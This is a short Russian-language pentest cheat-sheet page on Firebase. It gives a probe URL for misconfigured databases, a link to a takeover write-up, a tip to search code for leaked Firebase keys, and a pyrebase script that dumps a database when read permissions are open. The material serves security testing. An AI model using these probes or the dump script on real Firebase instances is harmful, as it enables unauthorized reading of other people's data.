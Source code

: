# Firebase

## Если кратко

Пробуем

```text
https://<databasename>.firebaseio.com/.json
```

## Firebase Database Takeover

Пример пентеста с плохо сконфигурированной базой - [https://medium.com/@danangtriatmaja/firebase-database-takover-b7929bbb62e1](https://medium.com/@danangtriatmaja/firebase-database-takover-b7929bbb62e1)

## Пример поиска и эксплуатации ключей Firebase

1 Ищем по коду подобные константы:  


![](../../../.gitbook/assets/izobrazhenie%20%2814%29.png)

Пример работы с firebase базой с помощью `pip install pyrebase`

```text
import pyrebase

config = {
  "apiKey": "FIREBASE_API_KEY",
  "authDomain": "FIREBASE_AUTH_DOMAIN_ID.firebaseapp.com",
  "databaseURL": "https://FIREBASE_AUTH_DOMAIN_ID.firebaseio.com",
  "storageBucket": "FIREBASE_AUTH_DOMAIN_ID.appspot.com",
}

firebase = pyrebase.initialize_app(config)

db = firebase.database()

print(db.get())

```

Этот код отработает, если выставлены permissions на чтение для apiKey

В документации pyrebase можно найти другие примеры по работе с Firebase.


